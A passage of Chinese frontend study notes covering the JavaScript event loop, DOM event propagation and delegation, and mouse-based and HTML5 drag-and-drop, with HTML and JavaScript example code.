- 这个时候，正好处于执行完一个宏任务的阶段，所以，会优先选择执行微任务
- 需要注意的是，读取微任务的方式是一队一队读取的，读取宏任务是一个一个读取的，上一个步骤会把所有已经注册在队列中的微任务全部读取执行

- 当所有的微任务执行完毕，表示该轮事件循环结束，下一轮继续从一个宏任务开始，这就是事件循环的过程。

[事件循环机制的那些事](./https://mp.weixin.qq.com/s?__biz=MzAxODE2MjM1MA==&mid=2651555331&idx=1&sn=5a063db73329a9d8ea5c38d8eeb50741&chksm=802551c2b752d8d4020514337f9987cc6611ba878525c45507cbb9ceb52b92e060f50e76c48d&mpshare=1&scene=1&srcid=1115P2jpgUGueMlTaRe9UFYu#rd)

[浏览器与Node的事件循环(Event Loop)有何区别?](https://juejin.im/post/5c337ae06fb9a049bc4cd218)

另外可以结合vue.nextTick的源码看一下，[https://github.com/answershuto/learnVue/blob/master/docs/Vue.js%E5%BC%82%E6%AD%A5%E6%9B%B4%E6%96%B0DOM%E7%AD%96%E7%95%A5%E5%8F%8AnextTick.MarkDown](https://github.com/answershuto/learnVue/blob/master/docs/Vue.js%E5%BC%82%E6%AD%A5%E6%9B%B4%E6%96%B0DOM%E7%AD%96%E7%95%A5%E5%8F%8AnextTick.MarkDown)

## 事件机制

通俗来讲：事件机制描述的是事件如何在DOM节点中进行传播以及响应

事件触发的三个阶段：

捕获阶段：

事件从跟节点流向目标节点，途中流经各个DOM节点，在各个节点上触发捕获事件，直到达到目标节点

目标阶段：

事件到达目标节点时，就到了目标阶段，事件在目标节点上触发

冒泡阶段：

事件在目标节点上触发后，不会终止，一层层向上冒泡，回溯到跟节点

注册事件：

- 通常我们使用`addEventListener`注册事件，该函数的第三个参数可以布尔值`useCapture`，默认为false，即默认为冒泡；该值也可以是对象，包含以下几个属性：

  - capture，布尔值，和 useCapture 作用一样

  - once，布尔值，值为 true 表示该回调只会调用一次，调用后会移除监听

  - passive，布尔值，表示永远不会调用 preventDefault

- 一般来说，我们只希望事件只触发在目标上，这时候可以使用`stopPropagation` 来阻止事件的进一步传播。通常我们认为`stopPropagation` 是用来阻止事件冒泡的，其实该函数也可以阻止捕获事件。`stopImmediatePropagation` 同样也能实现阻止事件，但是还能阻止该事件目标执行别的注册事件

```js
node.addEventListener('click',(event) =>{
	event.stopImmediatePropagation()
	console.log('冒泡')
},false);
// 点击 node 只会执行上面的函数，该函数不会执行
node.addEventListener('click',(event) => {
	console.log('捕获 ')
},true)
```

事件代理

如果一个节点中的子节点是动态生成的，那么子节点所需要的注册事件应该注册到父节点上

```html
<ul id="ul">
	<li>1</li>
    <li>2</li>
	<li>3</li>
	<li>4</li>
	<li>5</li>
</ul>
<script>
	let ul = document.querySelector('##ul')
	ul.addEventListener('click', (event) => {
		console.log(event.target);
	})
</script>
```

事件代理的优点是：
- 节省内存
- 不需要给子节点注销事件

## HTML5拖拽事件

基于鼠标事件的拖拽：

涉及的事件：onmousedown onmousemove onmouseup

注意事项和存在问题：

- 被拖动的对象的`position`值为`absolute`

- onmousedown事件需要在window.onload加载

- onmousemove 和 onmouseup 需要在onmousedown 内绑定

- 需要注意超出边界

具体的代码：

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
    <style>
        * {
            margin: 0;
            padding: 0;
        }
        #oDiv {
            width: 100px;
            height: 100px;
            background-color: #000;
            position: absolute;
        }
    </style>
</head>

<body>
    55555555555
    <div id="oDiv"></div>
    <script>
        oDiv.onmousedown = function(e) {
            var ev = e || event;
            var left = ev.clientX - oDiv.offsetLeft,
                top = ev.clientY - oDiv.offsetTop;
            document.onmousemove = function(e) {
                var ev = e || event;
                var leftW = ev.clientX - left;
                var topH = ev.clientY - top;
                //左边不能超出
                if (leftW < 0) {
                    leftW = 0;
                }
                //上边不能超出
                if (topH < 0) {
                    topH = 0;
                }
                //右边不能超出
                if (leftW > document.documentElement.clientWidth - oDiv.offsetWidth) {
                    leftW = document.documentElement.clientWidth - oDiv.offsetWidth;
                }
                //下边不能超出
                if (topH > document.documentElement.clientHeight - oDiv.offsetHeight) {
                    topH = document.documentElement.clientHeight - oDiv.offsetHeight;
                }
                oDiv.style.left = leftW + 'px';
                oDiv.style.top = topH + 'px';
            }
            document.onmouseup = function(e) {
                document.onmousemove = null;
                document.onmouseup = null;
            }
            return false;
        }
    </script>
</body>

</html>
```

基于HTML5的拖拽API：

MDN上关于拖拽事件的介绍：

| Event     | On Event Handler | Fire When..                                                             |
| --------- | ---------------- | ----------------------------------------------------------------------- |
| drag      | ondrag           | 当拖动元素或者选中的文本时触发                                          |
| dragend   | ondragend        | 当拖拽操作结束触发（比如松开鼠标按键或者敲击 Esc 键）                   |
| dragenter | ondragenter      | 当拖动元素或者选中的文本到一个可释放的目标时触发                        |
| dragexit  | ondragexit       | 当元素变得不再是拖动操作的选中目标时触发                                |
| dragleave | ondragleave      | 当拖动元素或者选中的文本离开一个可释放的目标时触发                      |
| dragover  | ondragover       | 当元素或者选中的文本呗拖到一个可释放目标上时触发（每 100 毫秒触发一次） |
| dragstart | ondragstart      | 当用户开始拖动一个元素或者选中的文本触发                                |
| drop      | ondrop           | 当元素或者选中的文本在可释放目标上被释放时触发                          |


重点内容：

- dataTransfer：拖拽对象用来传递的媒介，使用一般为event.dataTransfer

- draggable: 拖动对象的标签元素属性一定要设置`draggable="true"`，否则不会有效果，例如：

```html
<div title="拖拽我" draggable="true">列表1</div>
```

- ondragstart 事件：当拖拽元素开始被拖拽的时候触发的事件，此事件作用在被拖曳元素上

- ondragenter 事件：当拖曳元素进入目标元素的时候触发的事件，此事件作用在目标元素上

-ondragover 事件：拖拽元素在目标元素上移动的时候触发的事件，此事件作用在目标元素上

-ondrop 事件：被拖拽的元素在目标元素上同时鼠标放开触发的事件，此事件作用在目标元素上

- ondragend 事件：当拖拽完成后触发的事件，此事件作用在被拖曳元素上

-Event.preventDefault() 方法：阻止默认的些事件方法等执行。在ondragover中一定要执行preventDefault()，否则ondrop事件不会被触发。另外，如果是从其他应用软件或是文件中拖东西进来，尤其是图片的时候，默认的动作是显示这个图片或是相关信息，并不是真的执行drop。此时需要用document的ondragover事件把它直接干掉。

-Event.effectAllowed 属性：就是拖拽的效果。

具体的代码：

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Document</title>
    <style type="text/css">
        #thatDiv {
            width: 500px;
            height: 100px;
            border: 1px solid red;
            position: relative;
        }
        #thisDiv {
            width: 500px;
            height: 100px;
            border: 1px solid black;
            margin-bottom: 20px;
        }
        #tarDiv,
        #tarDiv1,
        #tarDiv2,
        #tarDiv3,
        #tarDiv4 {
            float: left;
            width: 50px;
            height: 50px;
            background-color: #000;
            border: 1px #fff solid;
        }
        .tarDiv {
            color: #fff;
            text-align: center;
            line-height: 50px;
        }
    </style>
</head>

<body>
    <div id="thisDiv">
        <div id="tarDiv" class="tarDiv" draggable="true">1</div>
        <div id="tarDiv1" class="tarDiv" draggable="true">2</div>
        <div id="tarDiv2" class="tarDiv" draggable="true">3</div>
        <div id="tarDiv3" class="tarDiv" draggable="true">4</div>
        <div id="tarDiv4" class="tarDiv" draggable="true">5</div>
    </div>
    <div id="thatDiv"></div>

    <script type="text/javascript">
      var tarDiv = document.getElementsByClassName("tarDiv");
      var thisDiv = document.getElementById("thisDiv");
      var thatDiv = document.getElementById("thatDiv");
      thisDiv.ondragstart = function(ev) {
        var ev = ev || window.event;
        ev.dataTransfer.setData("text", ev.target.id); //将被拖拽的元素的id存入dataTransfer对象中
        window.thisId = ev.target.id;
        ev.dataTransfer.effectAllowed = "move";
      };
      thatDiv.ondragover = function(ev) {
        //阻止dragover的默认事件
        var ev = ev || window.event;
        if (typeof ev.preventDefault == "function") {
          ev.preventDefault();
        } else {
          ev.returnValue = false;
        }
        this.style.border = "1px dashed red"

        ev.preventDefault();
      };
      thatDiv.ondragenter = function(ev) {
        //阻止dragenter的默认事件
        var ev = ev || window.event;
        if (typeof ev.preventDefault == "function") {
          ev.preventDefault();
        } else {
          ev.returnValue = false;
        }
      };

      thatDiv.ondragleave = function(ev) {
        console.log(ev)
        var ev = ev || window.event;
        var removeDiv = document.getElementById(window.thisId);
        this.style.border = "1px solid red"
        thisDiv.appendChild(removeDiv);
        removeDiv.style.cssText = "border:1px #fff solid;";
        ev.preventDefault();
      };
      thatDiv.ondrop = function(ev) {
        console.log(ev)
        var ev = ev || window.event;
        var divId = ev.dataTransfer.getData("Text"); //从dataTransfer对象中取出数据
        if (typeof ev.preventDefault == "function") {
          //阻止drop事件的默认行为
          ev.preventDefault();
        } else {
          ev.returnValue = false;
        }
        var moveDiv = document.getElementById(divId);
        thatDiv.appendChild(moveDiv);
        this.style.border = "1px solid red"
        moveDiv.setAttribute("draggable", "false");
        moveDiv.style.cssText = "border:1px #fff solid;";
      };
    </script>
</body>

</html>
```

## 浏览器缓存